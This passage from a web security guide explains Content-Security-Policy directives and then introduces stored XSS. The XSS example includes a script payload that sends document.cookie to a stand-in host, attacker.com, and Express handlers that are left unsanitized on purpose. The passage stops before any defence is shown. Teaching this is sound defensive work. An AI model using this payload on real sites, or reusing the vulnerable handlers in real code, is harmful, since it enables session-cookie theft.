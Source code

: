 ```html
Content-Security-Policy: script-src 'self' 'nonce-abc123' 'sha256-hash1' 'sha256-hash2'
```

### Advanced CSP Directives

**Frame Ancestors:**
Provides superior clickjacking protection compared to X-Frame-Options:

```
Content-Security-Policy: frame-ancestors 'none'
```

**Report-URI and Violation Reporting:**
Enable monitoring and policy refinement:

```
Content-Security-Policy: default-src 'self'; report-to csp-endpoint
```

**Strict Dynamic:**
Enables secure script loading patterns:

```
Content-Security-Policy: script-src 'nonce-abc123' 'strict-dynamic'
```

## Comprehensive Attack Vectors and Defenses

Understanding the complete attack landscape is crucial for implementing effective defenses. Modern web applications face sophisticated attack vectors that require multi-layered security approaches.

### Cross-Site Scripting (XSS) Attacks

XSS attacks inject malicious scripts into web pages, allowing attackers to steal session cookies, perform actions on behalf of users, or deface websites.

#### Stored XSS (Persistent)

**Attack Vector:** Malicious scripts permanently stored on server and served to all users.

**Risk Level:** Critical - affects all users accessing infected content.

**Example Attack:**

```javascript
// Attacker posts comment with malicious script
const maliciousComment = {
  content: '<script>fetch("https://attacker.com/steal?cookie=" + document.cookie)</script>',
  author: "attacker",
}

// Vulnerable code stores and displays without sanitization
app.post("/api/comments", (req, res) => {
  const comment = req.body
  saveComment(comment) // Stores malicious script
  res.json({ success: true })
})

app.get("/api/comments", (req, res) => {
  const comments = getComments()
  res.json(comments) // Returns malicious script to all users
})
```
